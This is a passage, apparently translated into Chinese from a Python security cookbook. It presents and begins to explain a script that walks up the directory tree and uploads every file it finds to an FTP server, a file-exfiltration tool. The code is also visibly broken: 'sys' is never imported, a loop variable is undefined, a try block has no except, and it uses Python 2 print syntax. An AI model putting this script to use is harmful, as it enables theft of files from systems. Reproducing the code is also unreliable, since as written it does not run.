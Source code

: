 为此，您需要一个运行正常的 FTP 服务器。我用的是`vsftpd`，但你可以随意使用。您需要将凭据硬编码到脚本中（不建议这样做），或者将凭据作为标志发送。

## 怎么做…

我们将使用的脚本如下所示：

```
from ftplib import FTP
import time
import os

user = sys.argv[1]
pw = sys.argv[2]

ftp = FTP("127.0.0.1", user, pw)

filescheck = "aa"

loop = 0
up = "../"

while 1:
  files = os.listdir("./"+(i*up))
  print files

  for f in files:
    try:
      fiile = open(f, 'rb')
      ftp.storbinary('STOR ftpfiles/00'+str(f), fiile)
      fiile.close()
    else:
      pass

  if filescheck == files:
    break
  else:
    filescheck = files
    loop = loop+1
    time.sleep(10)
ftp.close()
```

## 它是如何工作的…

一如既往，我们导入库并设置变量。我们已将用户名和密码设置为`sys.argv`，以避免硬编码，从而暴露我们的系统：

```
from ftplib import FTP
import time
import os

user = sys.argv[1]
pw = sys.argv[2]
```

